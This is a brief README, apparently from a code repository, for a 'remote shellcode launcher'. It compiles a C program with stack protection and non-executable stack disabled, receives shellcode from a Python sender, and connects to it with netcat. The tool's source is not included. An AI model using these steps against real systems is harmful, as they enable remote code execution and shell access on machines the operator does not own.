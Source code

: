 # Remote Shellcode Launcher
Simple remote shellcode launcher

How To Use
=
## Compile C file
```
gcc -fno-stack-protector -z execstack launcher.c -o launcher
```
## Listen To Get Shellcode
```
chmod +x launcher
./launcher
```
## Send Shellcode
```
python sender.py
```
## Connect To Client
```
nc -v <HOST> <PORT>
```
## Notes
### You can change port for connect in files and set custom shellcode in ```sender.py``` file.